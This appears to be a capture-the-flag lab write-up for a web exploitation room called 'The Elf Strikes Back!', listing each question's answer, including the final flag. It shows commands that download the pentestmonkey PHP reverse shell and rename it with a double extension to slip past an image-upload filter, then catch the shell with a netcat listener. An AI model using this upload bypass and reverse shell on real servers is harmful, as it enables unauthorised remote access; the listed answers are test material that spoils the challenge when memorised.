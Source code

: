 ```yaml
---
description: Web Exploitation
---
```


# The Elf Strikes Back!

## Web Exploitation

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

Open the site

![](../.gitbook/assets/image%20%282%29.png)

> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2811%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%287%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2810%29.png)

![](../.gitbook/assets/image%20%2815%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%289%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%284%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%288%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}



